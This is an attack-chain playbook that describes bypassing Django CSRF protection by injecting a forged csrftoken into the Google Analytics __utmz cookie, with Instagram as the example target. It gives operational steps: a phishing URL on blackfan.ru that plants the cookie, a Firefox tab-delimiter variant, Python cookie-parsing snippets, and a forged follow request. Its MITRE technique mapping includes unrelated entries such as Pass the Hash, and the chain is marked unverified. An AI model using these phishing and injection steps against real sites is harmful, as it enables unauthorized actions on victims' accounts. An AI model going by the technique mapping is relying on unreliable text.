

# CSRF Bypass via Google Analytics Cookie Injection in Django

Multi-stage attack chain demonstrating a complete workflow to bypass Django's CSRF protection by injecting a forged token into the __utmz cookie via Google Analytics referer manipulation and exploiting Python's cookie parsing laxity.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Google-Chrome]]
- [[tools/Firefox]]
- [[tools/Python-http-cookies]]

### Target Environment

- Web platform with Django backend using cookie-based CSRF protection
- Google Analytics integration on the target site (e.g., instagram.com)
- No specific ports; operates over HTTPS/HTTP

### Initial Access Requirements

- User must be authenticated on the target site
- Social engineering to trick user into clicking a malicious link
- Browser supporting cookie setting with delimiters (Chrome, Firefox; not Safari)

## Detailed Attack Procedures

### Step 1: Authenticate User Session
procedure: [[procedures/Authenticate-User-Session-on-Target-Site]]

**Objective**: Establish a valid session on the target Django site to set the stage for CSRF token manipulation.

**Instructions**: Log in to the target site using valid credentials to create a session cookie including the legitimate csrftoken.

**Expected Output**: Successful login with csrftoken cookie set in browser.

**Success Indicators**:
- Session established
- csrftoken visible in browser dev tools

### Step 2: Trick User into Visiting Malicious Link
procedure: [[procedures/Trick-User-into-Visiting-Malicious-Link-for-Cookie-Injection]]

**Objective**: Use social engineering to direct the user to a malicious URL that leverages Google Analytics to inject the forged CSRF token into the __utmz cookie.

**Instructions**: Send a phishing link like `http://blackfan.ru/r/,%5Dcsrftoken=x,;domain=.instagram.com;path=/;...;?r=http://blog.instagram.com/`. When visited, the referer path with delimiter ']' injects `csrftoken=x` into __utmz.

**Expected Output**: __utmz cookie updated with injected value on the target domain.

**Success Indicators**:
- Malicious link clicked
- Injected cookie set (verify in dev tools)

### Step 3: Exploit Cookie Parsing Flaw
procedure: [[procedures/Exploit-Cookie-Parsing-Flaw-with-Forged-Token]]

**Objective**: Leverage Python's SimpleCookie parsing to split the malformed __utmz cookie, creating a separate forged csrftoken.

**Instructions**: Return to the target site; the server parses `__utmz=blah]csrftoken=x` as two cookies. Test locally with [[commands/simplecookie-load-delimiter-injection]]:

```python
from http import cookies
C = cookies.SimpleCookie()
C.load('__utmz=blah]csrftoken=x')
print(C)
```

**Expected Output**: Parsed as separate cookies: __utmz='blah', csrftoken='x'.

**Success Indicators**:
- Forged csrftoken accepted by server
- No parsing errors

### Step 4: Submit CSRF-Protected Form
procedure: [[procedures/Submit-CSRF-Protected-Form-with-Forged-Token]]

**Objective**: Use the injected csrftoken to submit a state-changing POST request, bypassing protection.

**Instructions**: Submit a form to an endpoint like `/web/friendships/1312928755/follow/` with `csrfmiddlewaretoken='x'`. The forged cookie matches the token.

**Expected Output**: Successful unauthorized action (e.g., user followed).

**Success Indicators**:
- Form submission succeeds without CSRF error
- Action performed (e.g., new follow relationship)

### Step 5: Firefox Whitespace Bypass
procedure: [[procedures/Firefox-Whitespace-Bypass-for-Cookie-Injection]]

**Objective**: Alternative injection using whitespace or control characters in Firefox for broader compatibility.

**Instructions**: In Firefox, visit `https://instagram.com/?utm_source=1&utm_medium=2&utm_campaign=3&utm_term=4&utm_content=5%09csrftoken=x` where %09 (tab) separates the cookie. Test with [[commands/simplecookie-load-tab-delimiter]]:

```python
from http import cookies
C = cookies.SimpleCookie()
C.load('__utmz=blah\x09csrftoken=x')
print(C)
```

**Expected Output**: Separate cookies parsed successfully.

**Success Indicators**:
- Injection works in Firefox
- CSRF bypass confirmed

## Attack Chain Summary

### Key Achievements

1. Bypassed Django CSRF via cookie injection
2. Exploited Google Analytics unfiltered referer
3. Enabled unauthorized actions on protected sites

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[Steal Web Session Cookie]]
- [[Pass the Hash]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---

*Last updated: 2023-10-01T00:00:00Z*
